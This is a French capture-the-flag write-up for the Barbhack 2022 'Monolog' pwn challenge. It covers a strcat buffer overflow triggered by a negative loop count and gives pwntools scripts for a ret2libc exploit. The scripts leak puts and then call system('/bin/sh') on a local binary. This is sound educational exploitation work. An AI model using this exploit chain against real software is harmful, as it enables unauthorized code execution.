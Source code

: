 # Monolog - catégorie PWN

**Disclaimer: Je n'ai pas participé au ctf Barbhack 2022, mais des collègues ont pu me fournir ce challenge quelques jours après l'évent. Voici comment je l'ai résolu**

**Disclaimer 2: étant donné que je n'étais pas présent durant l'évent, ma solution est incomplète vu qu'il manque la partie remote.**

## Analyse statique

Le comportement normal du binaire :
![](./data/normal_behaviour.png)

En ouvrant le binaire avec ghidra, on remarque que la fonction main ne sert qu'à appeller la fonction ``monolog``, qui est notre fonction vulnérable. Son code décompilé ressemble à ça :
![](./data/monolog_code.png)

Le while décompilé à l'air un peu compliqué à comprendre, mais concrètement, la boucle ne sert qu'à ça :
<a name="boucle"></a>
```c
for (int i = input_number; i == 0; --i)
{
	/* code */
}
```

En lisant le reste du code, on voit que ``fgets`` est utilisé pour lire l'entrée utilisateur, et qu'à priori il n'y a pas de possibilité de faire un buffer overflow via ces appels. (Le buffer1 à une taille de 100, et lorsqu'on le remplit, soit on lit 10 caractère soit 100, donc on a pas de place supplémentaire pour injecter dans la mémoire)

Par contre, on remarque un appel ``strcat(buffer1, buffer2)`` à la ligne 28. Je n'avais jamais vu cette fonction avant, et voilà ce que nous dit le manuel dessus:
![](./data/man_strcat.png)


``[...] the dest string must have enough space for the result.  If dest is not large enough, program behavior is unpredictable``

Et voilà notre vecteur d'attaque, on va créer un buffer overflow via une mauvaise utilisation de strcat. Ici, ``dest`` est notre buffer2 de taille de 1000, et buffer1 notre input à chaque tour de boucle, d'une taille de 100. Si on utilise le programme normalement, ça reste toujours impossible d'exploiter strcat, parce que la valeur maximale de ``input_number``, (qui détermine combien de fois on a le droit de "parler") est de 10. 10\*100 = 1000, le buffer2 est toujours assez grand pour tout stocker sans déborder dans la mémoire.
Mais si on regarde bien la condition de la [boucle](#boucle), on voit que le test est ``i == 0``. Donc si on rentre un nombre qui est inférieur à 0, on va avoir une boucle infinie. Et donc on pourra remplit notre buffer2 autant qu'on voudra...

Maintenant qu'on a notre plan, il reste plus qu'à l'exploiter.


## Exploitation

Grâce à un petit checksec, on sait quel genre de buffer overflow on va devoir faire; vu que la stack n'est pas éxecutable (NX), on va devoir faire une attaque [ret2libc](https://beta.hackndo.com/retour-a-la-libc/)

![](./data/checksec.png)

(L'ASLR sera aussi activé, les adresse des fonctions de libraries seront randomisées)

### Leak puts
Voici à quoi ressemblera notre programme pour leak l'adresse de puts, qui nous permettra de calculer l'adresse de la libc :
```py
from pwn import *


context.binary = binary = ELF("./monolog")

OFFSET = ????

puts_libc = binary.libc.sym["puts"]
puts_plt = binary.plt["puts"]
puts_got = binary.got["puts"]
main = binary.sym["main"]

payload = b''.join([
		b"A"*OFFSET,
		p32(puts_plt),
		p32(main),
		p32(puts_got),
	])

p = process()
p.sendline(b"-1")
p.sendline(payload)
p.sendline(b"stop")
p.readuntil(b"monolog : ")
p.readuntil(b"\n\n")

leaked = u32(p.readline().strip()[:4])
libc_addr = leaked - puts_libc

print("puts :", hex(leaked), "- libc :", hex(libc_addr))
```

(Pour comprendre le fonctionnement théorique de l'exploit et les sections PLT & GOT : [1](https://www.youtube.com/watch?v=kUk5pw4w0h4), [2](https://www.youtube.com/watch?v=PVSrbXPAc-Y), [3](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html), [4](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address))

Pour trouver notre offset, on va lancer le binaire dans gdb. Ma façon de faire à été de rentrer 2 string reconnaissable pour pouvoir localiser le buffer2 dans la stack, "AAA" et "BBB", puis de trouver l'adresse du saved EIP pour calculer l'offset nécessaire entre le début du buffer2 et l'adresse du EIP.

![](./data/find_buffer2.png)

Tout en haut de notre stack, on a comme prévu notre dernière input, ``0x0a424242`` correspond à "BBB\n". Un peu plus loin, en ``0xffffd124`` on retrouve notre buffer2 avec la première input, "AAA\n". 

En utilisant ensuite ``info frame`` on est capable de trouver à quel adresse se trouve EIP et ainsi on peut simplement faire une soustraction pour calculer l'offset

![](./data/offset_calc.png)

En mettant l'offset à 1016, et en lançant notre script on obtient comme résultat:

![](./data/leak_puts.png)


### Call system

Pour appeller ``system``, maintenant qu'on connait l'adresse de libc dans le binaire, il ne nous reste plus qu'à rajouter quelques variables dans le script et rentrer un nouveau payload:

```py
system_libc = binary.libc.sym["system"]
binsh_libc = next(binary.libc.search(b"/bin/sh"))

system = libc_addr + system_libc
binsh = libc_addr + binsh_libc

payload = b''.join([
		b"A"*1016,
		p32(system),
		p32(main),
		p32(binsh)
	])

p.sendline(b"-1")
p.sendline(payload)
p.sendline(b"stop")
p.readrepeat(.5)
p.interactive()
```

Le script final est [ici](./exploit.py) et une fois lancé, on a un exploit fonctionnel:
![](./data/final.png)
